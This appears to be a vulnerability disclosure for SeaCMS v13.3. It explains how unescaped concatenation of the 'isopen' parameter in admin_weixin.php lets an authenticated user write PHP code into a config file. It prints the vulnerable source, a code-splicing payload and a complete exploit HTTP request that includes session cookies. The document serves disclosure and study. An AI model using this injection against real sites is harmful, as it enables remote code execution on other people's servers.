






## SeaCMS v13.3 Command Execution Vulnerability

### Introduction

SeaCMS v13.3 has a remote code execution vulnerability. This vulnerability is caused by the fact that although `admin_weixin.php` imposes certain restrictions on edited files, an attacker can still bypass these restrictions and write code in a way to splice bypass, allowing an authenticated attacker to exploit the vulnerability to execute arbitrary commands and gain system privileges.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download


You can see the latest version v13.3


### Debugging Analysis and Exploitation

The latest version v13.3 of SeaCMS contains a command execution vulnerability.  
The vulnerability is in the `0omeqd\admin_weixin.php` file, where the `isopen` parameter is vulnerable to PHP code concatenation.  


The full source code of this file is as follows:
```php
<?php
header('Content-Type:text/html;charset=utf-8');
require_once(dirname(__FILE__) . "/config.php");
CheckPurview();
if ($action == "set") {
	$isopen = $_POST['isopen'];
	$title = htmlspecialchars($_POST['title']);
	$url = $_POST['url'];
	$ckmov_url = $_POST['ckmov_url'];
	$follow = htmlspecialchars($_POST['follow']);
	$noc = htmlspecialchars($_POST['noc']);
	$dpic = $_POST['dpic'];
	$help = htmlspecialchars($_POST['help']);
	$topage = $_POST['topage'];
	$sql_num = intval($_POST['sql_num']);
	$dwz = $_POST['dwz'];
	$dwztoken = $_POST['dwztoken'];

	$msg1a = $_POST['msg1a'];
	$msg1b = $_POST['msg1b'];
	$msg2a = $_POST['msg2a'];
	$msg2b = $_POST['msg2b'];
	$msg3a = $_POST['msg3a'];
	$msg3b = $_POST['msg3b'];
	$msg4a = $_POST['msg4a'];
	$msg4b = $_POST['msg4b'];
	$msg5a = $_POST['msg5a'];
	$msg5b = $_POST['msg5b'];

	$open = fopen("../data/admin/weixin.php", "w");
	$str = '<?php  ';

	$str .= 'define("isopen", "';
	$str .= "$isopen";
	$str .= '"); ';
	$str .= 'define("title", "';
	$str .= "$title";
	$str .= '"); ';

	$str .= 'define("url", "';
	$str .= "$url";
	$str .= '"); ';

	$str .= 'define("ckmov_url", "';
	$str .= "$ckmov_url";
	$str .= '"); ';

	$str .= 'define("follow", "';
	$str .= "$follow";
	$str .= '"); ';

	$str .= 'define("noc", "';
	$str .= "$noc";
	$str .= '"); ';

	$str .= 'define("dpic", "';
	$str .= "$dpic";
	$str .= '"); ';

	$str .= 'define("help", "';
	$str .= "$help";
	$str .= '"); ';

	$str .= 'define("topage", "';
	$str .= "$topage";
	$str .= '"); ';

	$str .= 'define("dwz", "';
	$str .= "$dwz";
	$str .= '"); ';

	$str .= 'define("dwztoken", "';
	$str .= "$dwztoken";
	$str .= '"); ';

	$str .= 'define("sql_num", "';
	$str .= "$sql_num";
	$str .= '"); ';

	$str .= 'define("msg1a", "';
	$str .= "$msg1a";
	$str .= '"); ';
	$str .= 'define("msg1b", "';
	$str .= "$msg1b";
	$str .= '"); ';

	$str .= 'define("msg2a", "';
	$str .= "$msg2a";
	$str .= '"); ';
	$str .= 'define("msg2b", "';
	$str .= "$msg2b";
	$str .= '"); ';

	$str .= 'define("msg3a", "';
	$str .= "$msg3a";
	$str .= '"); ';
	$str .= 'define("msg3b", "';
	$str .= "$msg3b";
	$str .= '"); ';

	$str .= 'define("msg4a", "';
	$str .= "$msg4a";
	$str .= '"); ';
	$str .= 'define("msg4b", "';
	$str .= "$msg4b";
	$str .= '"); ';

	$str .= 'define("msg5a", "';
	$str .= "$msg5a";
	$str .= '"); ';
	$str .= 'define("msg5b", "';
	$str .= "$msg5b";
	$str .= '"); ';

	$str .= " ?>";
	fwrite($open, $str);
	fclose($open);
	ShowMsg("Settings saved successfully!", "admin_weixin.php");
	exit;
}
```

In the web page, this is part of the system's WeChat official account settings in the backend. We click "Confirm" and intercept the request using a proxy tool.


We send the `isopen` parameter and inject PHP code. The payload is as follows (note that the request needs to be URL-encoded):
```r
isopen=n");phpinfo();define("isopen", "n
```


The complete HTTP request is as follows:
```http
POST /0omeqd/admin_weixin.php?action=set HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 1216
Origin: http://localhost
Connection: close
Referer: http://localhost/0omeqd/admin_weixin.php
Cookie: XDEBUG_SESSION=AFCC; csrftoken=N1K4gile3UYv5N2MXM1ShwrrDTIW4JlfeGUS9a3XNzAxoXvHZ3itSuzzfFW4qdo8; devicePixelRatio=2; Phpstorm-db9a8415=b6480a2a-df8b-4049-b957-2723e5e1ad60; EM_AUTHCOOKIE_Is4qa70oOAoxVSN06kHCjdfvPUF6AvMI=admin%7C1768614317%7Cbce91a6d0efcfa837abca98d5feac895; EM_AUTHCOOKIE_H8GRtC1y0GuSnpOqCfrakVi13LpyC3uP=admin%7C1768664135%7C5c9e0424faa5c1136742a65bf62cfb85; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MTA6InBocCB8IHBocD8iO3M6MzoiYWxsIjtpOjA7czozOiJodGEiO2k6MTt9; PHPSESSID=sc3q3bgfniuuuj7s6et90vh3k8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

isopen=n")%3bphpinfo()%3bdefine("isopen",+"n&url=https%3A%2F%2Fwww.seacms.com&title=%E6%B5%B7%E6%B4%8B%E5%BD%B1%E8%A7%86&ckmov_url=https%3A%2F%2Fwww.seacms.com%2Fvip.php%3Furl%3D+&dpic=https%3A%2F%2Fwww.seacms.com%2Fapi%2Fwx.jpg&follow=%E6%84%9F%E8%B0%A2%E6%82%A8%E7%9A%84%E5%85%B

3%E6%B3%A8%E3%80%82&noc=%E6%9A%82%E6%97%A0%E4%BD%A0%E8%A6%81%E7%9A%84%E5%86%85%E5%AE%B9%E3%80%82&help=%E8%BF%99%E6%98%AF%E5%B8%AE%E5%8A%A9%E4%BF%A1%E6%81%AF%E3%80%82&topage=d&dwz=n&dwztoken=dwztoken&sql_num=15&msg1a=%E5%85%B3%E9%94%AE%E8%AF%8D1&msg1b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B91&msg2a=%E5%85%B3%E9%94%AE%E8%AF%8D2&msg2b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B92%3Ca+href%3D%27http%3A%2F%2Fwww.seacms.com%27%3E%E9%93%BE%E6%8E%A5%E6%B5%8B%E8%AF%95%3C%2Fa%3E%EF%BC%8C%E6%B5%8B%E8%AF%95%E7%BB%93%E6%9D%9F%E3%80%82&msg3a=%E5%85%B3%E9%94%AE%E8%AF%8D3&msg3b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B93&msg4a=%E5%85%B3%E9%94%AE%E8%AF%8D4&msg4b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B94&msg5a=%E5%85%B3%E9%94%AE%E8%AF%8D5&msg5b=%3Ca+href%3D%27https%3A%2F%2Fwww.seacms.com%27%3E%E9%93%BE%E6%8E%A5%3C%2Fa%3E
```

Upon debugging and setting breakpoints, we can see that the `phpinfo();` was successfully injected into the `str` variable.



After accessing the PHP path, the injected PHP code is successfully executed:


```r
data/admin/weixin.php
```

